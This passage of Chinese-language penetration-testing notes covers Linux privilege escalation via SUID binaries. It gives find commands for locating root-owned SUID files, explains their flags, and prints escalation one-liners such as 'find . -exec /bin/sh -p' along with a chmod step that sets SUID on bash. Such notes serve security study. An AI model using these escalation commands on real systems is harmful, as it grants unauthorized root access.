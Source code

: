 ```
我们控制了一个普通用户，那么可以使用该命令，去寻找有哪些命令具有suid权限
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls {} \; 2>/dev/null

分别解释命令的参数
-user root：只查找所有者为 root 的文件。
-perm -4000：查找具有 SUID 权限的文件，4000 代表 SUID 位。
-print：在找到符合条件的文件后，将其路径打印到标准输出。
2>/dev/null：将标准错误输出重定向到 /dev/null
-perm -u=s：表示查找具有 SUID 权限的文件
-type f：限制查找结果为普通文件
-exec ls {} \;：对每个找到的文件，执行 ls 命令，{} 会被 find 找到的每个文件替换。\; 表示命令的结束。
```

![image-20241017175918116](操作系统提权/image-20241017175918116.png)	

```
2、利用ﬁnd提权，首先find的文件必须存在，才能exec后面的命令。
find 123 -exec whoami \;
find . -exec /bin/sh -p \; -quit
```

![image-20241017180127822](操作系统提权/image-20241017180127822.png)	

```
BASH提权 
bash命令是用来打开一个shell。同时它也有执行命令的能力。 因此，如果配置为使用SUID权限运行，则可以通过bash执行的命令都将以root身份去运行。

还是一样的首先给bash赋予suid权限
chmod u+s /usr/bin/bash
查看哪些命令具有suid权限
find / -user root -perm -4000 -print 2>/dev/null
```
